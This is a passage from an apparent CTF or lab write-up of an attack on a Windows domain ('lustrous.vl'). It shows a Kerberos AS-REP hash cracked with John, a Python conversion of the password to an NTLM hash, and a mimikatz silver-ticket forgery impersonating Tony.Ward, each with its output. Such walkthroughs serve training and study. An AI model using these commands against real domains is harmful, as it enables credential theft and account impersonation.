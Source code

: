     john svc_web.hash --wordlist=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 07/03/24 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 ASIMD 4x])
    Will run 2 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    <redacted>         (?)

Since we now have the password, we can convert it into the NTLM hash using python or u can use online directly.

    import hashlib

    password = "iydgT...."
    password_bytes = password.encode("utf-16le")
    md4_hash = hashlib.new("md4", password_bytes).digest()
    ntlm_hash = md4_hash.hex()
    print(ntlm_hash)

>E67AF8B3D78DF5A0.....<redacted>

## Silver Ticket Attack

Now we got the NTLM hash of the svc_web service account. In order to perform the silver ticket attack, we still need to know domain, and target user SIDs. The following wmic command can be use to extract the necessary information.

    mimikatz # kerberos::golden /sid:S-1-5-21-698106580-430135868-959541345-500 /domain:lustrous.vllustrous.vl /ptt /id:1114 /target:lusdc.lustrous.vl /service:http /rc4:E67AF8B3D78DF5....... /user:Tony.Ward
    User      : Tony.Ward
    Domain    : lustrous.vllustrous.vl (LUSTROUS)
    SID       : S-1-5-21-698106580-430135868-959541345-500
    User Id   : 1114
    Groups Id : *513 512 520 518 519 
    ServiceKey: e67af8b3d78df5a02eb0d57b6cb60717 - rc4_hmac_nt      
    Service   : http
    Target    : lusdc.lustrous.vl
    Lifetime  : 7/1/2024 2:51:45 AM ; 6/29/2034 2:51:45 AM ; 6/29/2034 2:51:45 AM
    -> Ticket : ** Pass The Ticket **

    * PAC generated
    * PAC signed
    * EncTicketPart generated
    * EncTicketPart encrypted
    * KrbCred generated

    Golden ticket for 'Tony.Ward @ lustrous.vllustrous.vl' successfully submitted for current session

-----------------------------------------------------------------------------------------------------

    *Evil-WinRM* PS C:\ProgramData> klist

    Current LogonId is 0:0x38f90f

    Cached Tickets: (1)
